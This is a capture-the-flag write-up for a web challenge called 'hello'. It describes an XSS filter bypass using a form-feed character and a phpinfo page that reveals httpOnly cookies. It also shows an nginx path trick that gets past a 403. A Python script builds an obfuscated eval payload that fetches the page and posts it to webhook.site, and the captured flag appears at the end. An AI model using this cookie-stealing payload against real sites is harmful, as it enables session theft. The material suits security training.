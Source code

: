 ```yaml
---
ai_date: '2025-04-27 05:18:33'
ai_summary: XSS bypass with HTTP-only cookie exploitation and SSRF through nginx rule
ai_tags:
- xss
- http-only
- ssrf
created: 2024-08-17T18:40
points: 135
solves: 161
updated: 2024-08-18T21:34
---
```


## problem

- cookie is `httpOnly`, which means its not accessible from js.
- free XSS because the substring part does nothing.

I am able to circumvent the need for spaces and slashes using the following payload.

```html
<svg\x0conload="alert(1)">
```

And I can send web requests from http://idek-hello.chal.idek.team:1337, but there is no cookie.
## phpinfo

`phpinfo()` also displays cookies, and that includes `httpOnly` cookies as well.

That means we can send a request to it and get our flag.

```html
<html>
<head><title>403 Forbidden</title></head>
<body>
<center><h1>403 Forbidden</h1></center>
<hr><center>nginx/1.27.1</center>
</body>
</html>
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- a padding to disable MSIE and Chrome friendly error page -->
```

However we only get a 403, that's weird.

My teammate was able to find the following bypass, tbh idk how it works.

`http://idek-hello.chal.idek.team:1337/info.php/.php`

I do know that this is SSRF using the nginx rule but nginx is weird.

## script

```python
import urllib.parse
payload = """
fetch('http://idek-hello.chal.idek.team:1337/info.php/.php').then(r => r.text()).then(r => {
    fetch("http://webhook.site",{mode:  'no-cors', method: 'POST', body: r})
});
"""


def string_to_hex(s):
    return ''.join(f'\\x{ord(c):02x}' for c in s)


payload = urllib.parse.quote_plus(f"<svg\x0conload=\"console.log(1);eval('{string_to_hex(payload)}')\">")
print('http://idek-hello.chal.idek.team:1337/?name='+payload)
```

```flag
idek{Ghazy_N3gm_Elbalad}
```
